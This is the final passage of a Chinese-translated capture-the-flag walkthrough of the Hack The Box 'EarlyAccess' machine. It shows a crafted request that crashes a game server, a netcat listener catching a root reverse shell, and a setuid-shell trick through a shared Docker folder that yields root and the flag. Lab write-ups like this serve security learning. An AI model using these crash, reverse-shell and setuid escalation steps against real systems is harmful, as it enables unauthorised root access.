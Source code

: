 ```
drew@earlyaccess:/opt/docker-entrypoint.d$ curl -X POST -d "rounds=-3" http://172.19.0.3:9999/autoplay
curl: (52) Empty reply from server
```

# 根访问

在你的 Kali 上有一个 netcat 监听器等待，当上面的程序使游戏服务器崩溃时，我们会看到它以 root 用户的身份连接到我们:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.110] 59062
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@game-server:/usr/src/app#
```

现在我们是游戏服务器的 root 用户，我们可以将/bin/sh 复制到共享文件夹，并给它一个粘性位:

```
root@game-server:/# cd docker-entrypoint.d
root@game-server:/docker-entrypoint.d# cp /bin/sh . && chmod u+s sh
```

最后，回到早期访问，作为 drew，我们可以升级到 root 并获取标志:

```
drew@earlyaccess:/opt/docker-entrypoint.d$ ls -lsa
  4 -rwxr-xr-x 1 root root    100 Feb  6 13:23 node-server.sh
  4 -rwxr-xr-x 1 drew drew     42 Feb  6 13:23 pencer.sh
116 -rwsr-xr-x 1 root root 117208 Feb  6 13:23 shdrew@earlyaccess:/opt/docker-entrypoint.d$ ./sh
#
# id
uid=1000(drew) gid=1000(drew) euid=0(root) groups=1000(drew)
#
# cat /root/root.txt
913303c08fc7d61d3b3a8e31db502e01
```

完成了。对我来说，这真的是一个很难的盒子，但很愉快，我在这个过程中学到了一些东西。希望这个演练也能帮助你。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 2 月 8 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-earlyaccess)*。*